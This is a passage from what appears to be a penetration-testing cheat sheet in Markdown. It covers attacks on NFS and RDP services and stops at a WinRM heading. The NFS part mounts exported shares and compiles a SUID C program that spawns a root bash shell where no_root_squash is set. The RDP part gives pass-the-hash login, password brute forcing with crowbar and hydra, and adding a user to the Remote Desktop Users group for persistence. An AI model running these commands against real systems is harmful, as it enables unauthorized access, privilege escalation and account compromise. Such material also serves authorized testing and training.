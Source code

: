 ```
showmount -e <IP>
nmap --script=nfs-showmount -oN mountable_shares <IP>
```

### Mount a share

```
sudo mount -v -t nfs <IP>:<SHARE> <DIRECTORY>
```

### List NFS exported shares. If 'rw,no_root_squash' is present, connect, upload and execute suid-shell

```
echo 'int main(void){setreuid(0,0); system("/bin/bash"); return 0;}' > pwn.c
gcc pwn.c -o pwn
chmod +s pwn
```

------

## RDP - 3389

### Connect with known credentials / hash

```
rdesktop -u <USERNAME> <IP>
rdesktop -d <DOMAIN> -u <USERNAME> -p <PASSWORD> <IP>

xfreerdp /u:[DOMAIN\]<USERNAME> /p:<PASSWORD> /v:<IP>
xfreerdp /u:[DOMAIN\]<USERNAME> /pth:<HASH> /v:<IP>
```

### Brute force

```
crowbar -b rdp -s <IP>/CIDR -u <USER> -C <PASSWORDS_LIST>
crowbar -b rdp -s <IP>/CIDR -U <USERS_LIST> -C <PASSWORDS_LIST>

hydra -V -f -L <USERS_LIST> -P <PASSWORDS_LIST> rdp://<IP>
```

### Adding user to RDP group (Windows) 

```
net localgroup "Remote Desktop Users" <USER> /add
```

------

## WINRM - 5985 - 5986

### Brute force
